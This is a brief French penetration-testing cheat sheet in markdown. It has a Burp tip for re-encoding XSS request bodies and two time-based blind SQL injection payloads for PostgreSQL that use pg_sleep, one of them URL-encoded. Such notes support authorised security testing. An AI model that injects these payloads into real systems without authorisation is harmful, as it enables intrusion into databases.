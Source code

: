 # Web



## XSS

- Pour les payloads XSS (ou autre avec encodage chiant) : dans Burp > clic droit > change body encoding (il faut juste que le serveur accepte le format de requête mais sinon c'est okay)



## SQLi

- **Blind** (postgresql) : 

  ```sql
  0 and (123456=(select 123456 from pg_sleep(20)))
  ```

  ```sql
  0+and+('a'=(SELECT+case+when(1=1)+then+cast(PG_SLEEP(60)as+varchar)+else+'a'+end))
  ```

  

